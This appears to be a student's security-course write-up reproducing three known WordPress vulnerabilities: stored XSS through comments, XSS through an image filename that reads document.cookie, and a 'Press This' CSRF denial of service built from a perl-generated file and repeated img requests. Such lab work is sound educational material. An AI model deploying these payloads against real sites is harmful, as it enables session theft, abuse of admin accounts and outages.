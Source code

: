 # Week7Alternate

Exploit 1

Unauthenticated Stored Cross-Site Scripting (XSS)
Vulnerable in WordPress 4.2
Fixed in WordPress 4.2.1
Comments can store XSS, which can be activated if the comment is viewed. One could put in an XSS command that would abuse admin abilities to mess with their wordpress site, such as changing their password or deleting certain pages or other information.
Enter the following as a comment:
<a title='x onmouseover=alert(unescape(/hello%20world/.source))
style=position:absolute;left:0;top:0;width:5000px;height:5000px
 AAAAAAAAAAAA [64 kb] ...'></a>
 And then wait for someone to view the comment.
 
 Exploit 2
 Authenticated Stored Cross-Site Scripting via Image Filename
 Vulnerable in multiple versions as early as 2.5 and as far as 4.6
 fixed in Version 4.2.10 for 4.2, one of its latest fixes in 4.6.1
 WordPress basically doesn't do validation on the names of image files uploaded to wordpress. This means an attacker can put in malicious javascript code into wordpress.
 To recreate this exploit, upload a file with the name "cengizhansahinsumofpwn<img src=a onerror=alert(document.cookie)>.jpg" into wordpress. Once the image is viewed in wordpress, the code should execute.
 
 Exploit 3
 Press This CSRF DoS
 Vulnerable in multiple versions of Word Press from 4.2 to 4.7.2
 fixed in Version 4.2.13 for 4.2, latest fix in 4.7.3
 The "Press This" function of Word Press can scan a URL but there's no limit to the maximum amount of data that can be scanned from the link. Basically, taking advantage of this and tricking an admin of a WordPress page to look into it, an admin's WordPress server will be forced to download an almost infinite amount of data, making the server unavailable for a while.
 On another server, create a textfile with the command "perl -e 'print "<>"x28000000' > foo.txt" and another file called "dos.html". In the dos.html file, make sure there are enough entries to fill the WordPress server's connection pool, like:
 <img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=b'>
<img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=c'>
<img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=d'>
etc. etc., with "external server" being the external server address and "wp server" replaced with the word press server's address.

